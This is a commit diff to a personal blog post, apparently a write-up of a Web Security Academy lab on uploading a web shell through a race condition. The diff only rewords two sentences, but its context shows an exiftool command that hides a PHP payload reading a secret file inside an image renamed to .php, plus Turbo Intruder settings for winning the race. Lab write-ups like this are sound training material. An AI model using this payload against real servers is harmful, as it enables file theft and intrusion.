

Before and after one commit to CamoCatX/camocatx.github.io, a Jekyll site: the page built from blog/_posts/2022-05-09-expert-lab-web-shell-upload-via-race-condition.md, in a window 1280 px wide and 1400 px high, scrolled down 2525 px. Shown: the whole window at 89% size, without its empty margins (108-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Edit blog post

````diff
--- a/blog/_posts/2022-05-09-expert-lab-web-shell-upload-via-race-condition.md
+++ b/blog/_posts/2022-05-09-expert-lab-web-shell-upload-via-race-condition.md
@@ -94,7 +94,7 @@ def handleResponse(req, interesting):
         table.add(req)
 ```
 
-I set concurrentConnections=80 by trial and error, more was hindering the main upload request so I set to 80. Then I downloaded a 500KB PHP file from the web and used exiftool to add this code to it and renamed it to a PHP file:
+I set concurrentConnections=80 by trial and error, more was hindering the main upload request so I set to 80. Then I downloaded a random 500KB PNG file from the web and used exiftool to add this code to it and renamed it to a PHP file:
 
 ```
 exiftool -comment="<?php echo file_get_contents('/home/carlos/secret'); ?>" diamond.php
@@ -133,7 +133,7 @@ Te: trailers
 Connection: close
 ```
 
-then I hit upload to send the file, and after about one minute I could get some 200 responses in turbo intruder containing password for carlos! :)
+then I hit upload on the web page in the browser to send the file, and after about one minute I could get some 200 responses in turbo intruder containing password for carlos! :)
 
 <br>
 #### Solution 2:  Web Security Academy's Solution
````
